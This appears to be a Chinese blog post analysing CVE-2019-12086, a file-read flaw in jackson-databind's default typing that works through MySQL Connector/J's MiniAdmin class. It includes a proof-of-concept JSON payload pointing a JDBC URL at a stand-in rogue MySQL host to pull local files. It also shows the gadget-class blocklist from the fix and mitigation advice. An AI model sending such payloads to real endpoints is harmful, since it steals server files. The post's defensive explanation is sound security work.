

# 分析 Jackson 的安全漏洞 CVE-2019-12086 - 程序员赵鑫 - 博客园

> 原文：[`www.cnblogs.com/xinzhao/p/11005419.html`](https://www.cnblogs.com/xinzhao/p/11005419.html)

### CVE-2019-12086 Description

> A Polymorphic Typing issue was discovered in FasterXML jackson-databind 2.x before 2.9.9\. When Default Typing is enabled (either globally or for a specific property) for an externally exposed JSON endpoint, the service has the mysql-connector-java jar (8.0.14 or earlier) in the classpath, and an attacker can host a crafted MySQL server reachable by the victim, an attacker can send a crafted JSON message that allows them to read arbitrary local files on the server. This occurs because of missing com.mysql.cj.jdbc.admin.MiniAdmin validation.

使用了 jackson-databind 2.x before 2.9.9 的 Java 应用，如果 ClassPath 中有 com.mysql.cj.jdbc.admin.MiniAdmin（存在于 MySQL 的 JDBC 驱动中）这个类，那么 Java 应用所在的服务器上的文件，就可能被任意读取并传送到恶意的 MySQL Server。具体原理下面分析。

### Polymorphic Handling in JSON Serialization

```
 public class Person {
        public String name;
        public int age;
        public PhoneNumber phone;
    }
    abstract class PhoneNumber {
        public int num;
     }
     public class InternationalNumber extends PhoneNumber {
        public int areaCode;
     }
     public class DomesticNumber extends PhoneNumber { 
     } 
```

一个序列化后的样例：

```
 { 
        "name" : "Bob",
        "age" : 28.
        "phone" : {
            "areaCode" : 555,
            "num" : 1234567
        }
    } 
```

序列化后类型消失，反序列化时因为 PhoneNumber 是抽象类，不知道该创建哪一个子类的对象。

### Enable Polymorphic Handling in Jackson

Jackson 解决序列化时不知道类型的问题，可以用 Default Typing：

```
 ObjectMapper om = new ObjectMapper();
      om.enableDefaultTyping();

      Person p = new Person();
      p.name = "Bob";
      p.age = 28;

      InternationalNumber phone = new InternationalNumber();
      phone.areaCode = 555;
      phone.num = 1234567;

      p.phone = phone;

      System.out.println(om.writeValueAsString(p)); 
```

```
 {
        "name":"Bob",
        "age":28,
        "phone":["jackson.InternationalNumber",{"num":1234567,"areaCode":555}]
    } 
```

也有其它方法，不再赘述了，殊途同归，都是在 JSON 中增加数据类型信息，这样反序列化的时候 Jackson 就知道了该使用哪一个类来创建对象。

### Security Issues with MySQL LOAD DATA LOCAL

MySQL 支持使用 LOAD DATA LOCAL INFILE 这样的语法，将客户端本地的文件中的数据 insert 到 MySQL 的某张表中。挺好的功能，就是协议设计的有点怪，大概是这个样子的：

1.  用户在客户端输入：load data local infile "/data.csv" into table test;
2.  客户端=>服务端：我想把我本地的/data.csv 文件插入到 test 表中;
3.  服务端=>客户端：把你本地的/data.csv 发给我；
4.  客户端=>服务端：/data.csv 文件的内容；

这个协议的问题是，客户端发送哪个文件的内容，取决于第 3 步，服务端要哪个文件，如果服务端是个恶意的 MySQL，那么他可以读取客户端的任意文件，比如读取/etc/passwd：

1.  用户在客户端输入：load data local infile "/data.csv" into table test;
2.  客户端=>服务端：我想把我本地的/data.csv 文件插入到 test 表中;
3.  服务端=>客户端：把你本地的/etc/passwd 发给我；
4.  客户端=>服务端：/etc/passwd 文件的内容；

而且，在大部分客户端（比如 MySQL Connector/J ）的实现里，第 1、2 步不是必须的，客户端发送任意查询给服务端，服务端都可以返回文件发送的请求。而大部分客户端在连接建立之后，都会有一些查询服务端配置之类的查询，所以使用这些客户端，只要创建了到恶意 MySQL 的连接，那么客户端所在服务器上的所有文件都可能泄露。

引用 MySQL 官方文档如下：

> In theory, a patched server could be built that would tell the client program to transfer a file of the server's choosing rather than the file named by the client in the LOAD DATA statement.

### Security Issues with MySQL Connector/J

MySQL 的 JDBC 驱动有一个创建连接的配置项 allowLoadLocalInfile，用来控制是否允许从本地读取文件，默认值是 true，也就是允许。

不清楚具体从哪个版本开始，MySQL 的 JDBC 驱动多了这么一个类 com.mysql.cj.jdbc.admin.MiniAdmin，可能没什么人用过，它有一个特点，就是在构造方法里会创建一个到指定 url 的 JDBC 连接。

```
 public class MiniAdmin {
        private JdbcConnection conn;

        public MiniAdmin(String jdbcUrl) throws SQLException {
            this(jdbcUrl, new Properties());
        }

        public MiniAdmin(String jdbcUrl, Properties props) throws SQLException {
            this.conn = (JdbcConnection) (new Driver().connect(jdbcUrl, props));
        }

        ...
    } 
```

以上两个问题，就导致只要使用恶意 MySQL 的 url 作为参数创建一个 com.mysql.cj.jdbc.admin.MiniAdmin 对象，就可以读取任意文件。

### CVE-2019-12086 POC

首先创建一个恶意的 MySQL，可以使用 https://github.com/Gifts/Rogue-MySql-Server。这个 server 读取客户端文件，并写入到 mysql.log 中。
假设启动在 ip：X.X.X.X 上面，那么在客户端执行如下代码，执行代码所在的机器上的 c:\windows\win.ini 文件内容就会出现在 mysql.log 中。

```
 ObjectMapper om = new ObjectMapper();
    om.enableDefaultTyping();

    String poc = "[\"com.mysql.cj.jdbc.admin.MiniAdmin\", \"jdbc:mysql://X.X.X.X:3306/db\"]";
    Object obj = om.readValue(poc, Object.class); 
```

端口号和文件号在 Rogue-MySql-Server 中写死了，可以打开任意修改，就是个 python 的脚本。

以上是 POC，在实际的生产环境中，可以通过往一些接受 JSON 参数的接口发送恶意的 JSON 数据来达成攻击的目的。

### MySQL Connector/J 的修复

MySQL Connector/J 8.0.15 开始将 allowLoadLocalInfile 默认值设置为 false。具体见[这里](https://dev.mysql.com/doc/relnotes/connector-j/8.0/en/news-8-0-15.html)



### Jason 的修复

从 2.9.9 版本开始，将 com.mysql.cj.jdbc.admin.MiniAdmin 加入反序列化黑名单：

```
 static {
        Set<String> s = new HashSet<String>();
        // Courtesy of [https://github.com/kantega/notsoserial]:
        // (and wrt [databind#1599])
        s.add("org.apache.commons.collections.functors.InvokerTransformer");
        s.add("org.apache.commons.collections.functors.InstantiateTransformer");
        s.add("org.apache.commons.collections4.functors.InvokerTransformer");
        s.add("org.apache.commons.collections4.functors.InstantiateTransformer");
        s.add("org.codehaus.groovy.runtime.ConvertedClosure");
        s.add("org.codehaus.groovy.runtime.MethodClosure");
        s.add("org.springframework.beans.factory.ObjectFactory");
        s.add("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        s.add("org.apache.xalan.xsltc.trax.TemplatesImpl");
        // [databind#1680]: may or may not be problem, take no chance
        s.add("com.sun.rowset.JdbcRowSetImpl");
        // [databind#1737]; JDK provided
        s.add("java.util.logging.FileHandler");
        s.add("java.rmi.server.UnicastRemoteObject");
        // [databind#1737]; 3rd party
//s.add("org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor"); // deprecated by [databind#1855]
        s.add("org.springframework.beans.factory.config.PropertyPathFactoryBean");

// s.add("com.mchange.v2.c3p0.JndiRefForwardingDataSource"); // deprecated by [databind#1931]
// s.add("com.mchange.v2.c3p0.WrapperConnectionPoolDataSource"); // - "" -
        // [databind#1855]: more 3rd party
        s.add("org.apache.tomcat.dbcp.dbcp2.BasicDataSource");
        s.add("com.sun.org.apache.bcel.internal.util.ClassLoader");
        // [databind#1899]: more 3rd party
        s.add("org.hibernate.jmx.StatisticsService");
        s.add("org.apache.ibatis.datasource.jndi.JndiDataSourceFactory");
        // [databind#2032]: more 3rd party; data exfiltration via xml parsed ext entities
        s.add("org.apache.ibatis.parsing.XPathParser");

        // [databind#2052]: Jodd-db, with jndi/ldap lookup
        s.add("jodd.db.connection.DataSourceConnectionProvider");

        // [databind#2058]: Oracle JDBC driver, with jndi/ldap lookup
        s.add("oracle.jdbc.connector.OracleManagedConnectionFactory");
        s.add("oracle.jdbc.rowset.OracleJDBCRowSet");

        // [databind#2097]: some 3rd party, one JDK-bundled
        s.add("org.slf4j.ext.EventData");
        s.add("flex.messaging.util.concurrent.AsynchBeansWorkManagerExecutor");
        s.add("com.sun.deploy.security.ruleset.DRSHelper");
        s.add("org.apache.axis2.jaxws.spi.handler.HandlerResolverImpl");

        // [databind#2186]: yet more 3rd party gadgets
        s.add("org.jboss.util.propertyeditor.DocumentEditor");
        s.add("org.apache.openjpa.ee.RegistryManagedRuntime");
        s.add("org.apache.openjpa.ee.JNDIManagedRuntime");
        s.add("org.apache.axis2.transport.jms.JMSOutTransportInfo");

        // [databind#2326] (2.9.9): one more 3rd party gadget
        s.add("com.mysql.cj.jdbc.admin.MiniAdmin");

        DEFAULT_NO_DESER_CLASS_NAMES = Collections.unmodifiableSet(s);
    } 
```

### What to do to Protect My System?

以下是 Jackson 作者的建议：

> Try to keep up with updated versions of Jackson (jackson-databind): it should always be safe to upgrade to the latest patch version of given minor version (safest in the sense they should be no breaking changes to functionality)

> If possible, AVOID enabling default typing (since it is usually class name based). It is better to be explicit about specifying where polymorphism is needed.

> AVOID using java.lang.Object (or, java.util.Serializable) as the nominal type of polymorphic values, regardless of whether you use per-type, per-property, or Default Typing

> If possible USE “type name” and NOT classname as type id: @JsonTypeInfo(use = Id.NAME) — this may require annotation of type name (see @JsonTypeName and @JsonSubTypes)

个人觉着最重要是第 3 点，避免使用 Object 对象作为 Jackson 反序列化的目标。

### Reference

[`github.com/FasterXML/jackson-databind/issues/2326`](https://github.com/FasterXML/jackson-databind/issues/2326)
[`medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062`](https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062)
[`russiansecurity.expert/2016/04/20/mysql-connect-file-read/`](http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/)
[`lightless.me/archives/read-mysql-client-file.html`](https://lightless.me/archives/read-mysql-client-file.html)
[`ftp.nchu.edu.tw/MySQL/doc/refman/5.0/en/load-data-local.html`](http://ftp.nchu.edu.tw/MySQL/doc/refman/5.0/en/load-data-local.html)
[`nvd.nist.gov/vuln/detail/CVE-2019-12086`](https://nvd.nist.gov/vuln/detail/CVE-2019-12086)